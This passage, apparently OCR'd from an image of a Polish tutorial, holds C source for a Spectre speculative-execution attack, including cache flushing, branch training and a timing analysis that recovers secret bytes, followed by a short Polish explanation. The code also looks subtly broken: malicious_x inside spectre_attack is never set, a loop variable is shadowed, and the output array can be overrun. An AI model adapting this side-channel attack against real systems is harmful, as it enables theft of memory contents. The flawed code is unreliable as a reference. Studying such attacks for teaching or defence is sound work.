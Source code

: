 ```c
}

void spectre_attack(const uint8_t *data, size_t data_length, uint8_t *output) {
    size_t training_x = 0;
    size_t malicious_x;

    for (size_t i = 0; i < 256; i++) {
        flush_cache();

        // Pętla treningowa
        for (int j = 0; j < 30; j++) {
            _mm_lfence();
            malicious_code(training_x % data_length, data, data_length);
        }

        // Atak
        _mm_lfence();
        malicious_code(malicious_x, data, data_length);

        // Analiza czasów dostępu do timing_array
        for (size_t i = 0; i < CACHE_SIZE; i++) {
            uint64_t time = measure_access_time(&timing_array[i * CACHE_LINE_SIZE]);

            if (time < threshold) {
                output[i]++;
            }
        }
    }
}

int main() {
    uint8_t secret_data[] = "Spectre - Secret Data";
    size_t data_length = sizeof(secret_data);
    uint8_t output[256] = {0};

    srand(time(NULL));
    size_t malicious_x = (size_t)(secret_data - (char *)timing_array + (rand() % 256));

    spectre_attack(secret_data, data_length, output);

    for (size_t i = 0; i < 256; i++) {
        if (output[i]) {
            printf("Recovered byte at index %zu: 0x%02x ('%c')\n", i, i, (char)i);
        }
    }

    return 0;
}
```

W powyższym przykładzie, funkcja `malicious_code` jest używana do wywołania spekulatywnego wykonania instrukcji. Funkcja `spectre_attack` zawiera pętlę treningową, która zmusza procesor do spekulatywnego wykonania instrukcji dla wartości `x` znajdującej się w granicach tablicy `data`. Następnie atak polega na przekazaniu wartości `malicious_x`, która wskazuje na tajne dane. W rezultacie procesor próbuje spekulatywnie wykonać instrukcje z funkcji `malicious_code` dla tych danych.
